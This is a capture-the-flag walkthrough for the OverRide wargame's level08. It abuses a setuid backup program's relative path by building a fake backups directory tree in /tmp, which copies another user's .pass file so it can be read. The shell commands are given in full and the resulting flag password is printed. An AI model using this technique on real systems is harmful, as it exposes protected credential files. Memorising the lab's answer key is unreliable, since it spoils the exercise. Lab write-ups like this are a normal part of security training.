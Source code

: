 # Level08

This program performs a backup with av[1]. It tries to open it, create a backup file at "./backups/" + av[1] and use a logger in the file "./backups/.log".
Since the path is relative and not absolute, we can use "/tmp" as "." when we execute the program with his absolute path like this:

```bash
level08@OverRide:~$ pwd
/tmp
level08@OverRide:~$ echo 'Hello !' > ./my_file
level08@OverRide:~$ mkdir backups
level08@OverRide:~$ /home/users/level08/level08 ./my_file
level08@OverRide:~$ cat ./backups/my_file
Hello !
```

We managed to use our backups directory instead of the one located in $HOME where we have no rights.

If we try directly to read "/home/users/level09/.pass", we encounter this error:

```bash
level08@OverRide:~$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

We can simply create the directory to store ".pass" inside our backups:

```bash
level08@OverRide:~$ mkdir /tmp/backups/home
level08@OverRide:~$ mkdir /tmp/backups/home/users
level08@OverRide:~$ mkdir /tmp/backups/home/users/level09
level08@OverRide:~$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:~$ cat /tmp/backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

The flag is **fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S**
